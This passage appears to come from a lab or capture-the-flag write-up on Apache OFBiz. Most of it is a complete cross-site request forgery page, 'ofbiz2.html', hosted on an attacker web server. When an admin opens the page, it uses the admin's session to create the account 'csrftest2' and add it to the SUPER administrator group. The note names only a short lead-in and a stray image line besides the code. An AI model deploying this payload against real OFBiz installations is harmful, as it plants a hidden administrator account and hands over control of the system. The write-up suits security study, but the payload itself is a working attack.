 ```http
```


#### Revising the CSRF payload

- full payload `ofbiz2.html` that defines variables, creates the user, and adds the user to the `SUPER` group - this payload is sent right after logging in as admin so a new fresh `JSESSION` cookie is seen in the request.

Script Combined into `ofbiz2.html` and saved into `/var/www/html/`
```js
<html>
<head>
<script>
  // Define variables
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" + username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";

  // Function to create user
  function send_create() { 
    console.log("Creating user..."); 
    fetch(host + create_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body : create_params
    }).then(function(response) {
      send_admin();
    }); 
  }

  // Function to add admin role
  function send_admin() { 
    console.log("Adding admin role..."); 
    fetch(host + admin_url, {
      method: 'POST',
      mode: 'no-cors',
      credentials: 'include',
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      },
      body : admin_params
    }).then(
      console.log("Should be done...") 
    );
  }

  // Call the create function to start the process
  send_create();
</script>
</head>
<body></body>
</html>
```